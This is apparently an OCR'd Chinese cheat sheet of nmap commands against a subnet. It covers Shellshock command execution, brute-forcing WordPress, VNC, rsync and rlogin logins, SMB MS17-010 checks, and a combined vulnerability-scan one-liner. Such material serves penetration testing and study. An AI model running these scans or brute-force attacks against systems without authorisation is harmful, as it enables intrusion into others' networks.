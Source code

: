 bash远程执行:
nmap -sV -p- --script http-shellshock --script-args uri=/cgi-bin/bin,cmd=ls 192.168.3.0/24

探测目标svn:
nmap --script http-svn-info 192.168.3.0/24

wordpress爆破:
nmap -p80 -sV --script http-wordpress-brute --script-args 'userdb=users.txt,passdb=passwds.txt,http-wordpress-brute.hostname=domain.com,http-wordpress-brute.threads=3,brute.firstonly=true' 192.168.3.0/24

扫描目标网站备份:
nmap -p80 --script=http-backup-finder 192.168.3.0/24

iis6.0远程代码执行:
nmap -sV --script http-vuln-cve* --script-args uri='/anotheruri/'  192.168.3.0/24

识别目标pptp版本:
nmap -p 1723 --script pptp-version.nse 192.168.3.0/24

smb漏洞检测脚本:
smb-vuln-ms08-067.nse
smb-vuln-ms10-054.nse
smb-vuln-ms10-061.nse
smb-vuln-ms17-010.nse
nmap -p445 --script smb-vuln-ms17-010.nse 192.168.3.0/24

内网嗅探:
nmap -sn -Pn --script sniffer-detect.nse 192.168.3.0/24

爆破目标的rsync:
nmap -p 873 --script rsync-brute --script-args 'rsync-brute.module=www' 192.168.3.0/24

爆破目标的rlogin:
nmap -p 513 --script rlogin-brute 192.168.3.0/24

爆破目标的vnc:
nmap --script vnc-brute -p 5900 192.168.3.0/24

爆破pcanywhere:
nmap -p 5631 --script pcanywhere-brute 192.168.3.0/24

爆破nexpose:
nmap --script nexpose-brute -p 3780 192.168.3.0/24

使用shodan接口扫描:
nmap --script shodan-api --script-args 'shodan-api.target=192.168.3.0/24,shodan-api.apikey=SHODANAPIKEY'

利用nmap一句话进行目标C段常规漏洞扫描:
nmap -sT -Pn -v --script dns-zone-transfer.nse,ftp-anon.nse,ftp-proftpd-backdoor.nse,ftp-vsftpd-backdoor.nse,ftp-vuln-cve2010-4221.nse,http-backup-finder.nse,http-cisco-anyconnect.nse,http-iis-short-name-brute.nse,http-put.nse,http-php-version.nse,http-shellshock.nse,http-robots.txt.nse,http-svn-enum.nse,http-webdav-scan.nse,iis-buffer-overflow.nse,iax2-version.nse,memcached-info.nse,mongodb-info.nse,msrpc-enum.nse,ms-sql-info.nse,mysql-info.nse,nrpe-enum.nse,pptp-version.nse,redis-info.nse,rpcinfo.nse,samba-vuln-cve-2012-1182.nse,smb-vuln-ms08-067.nse,smb-vuln-ms17-010.nse,snmp-info.nse,sshv1.nse,xmpp-info.nse,tftp-enum.nse,teamspeak2-version.nse 192.168.3.0/24
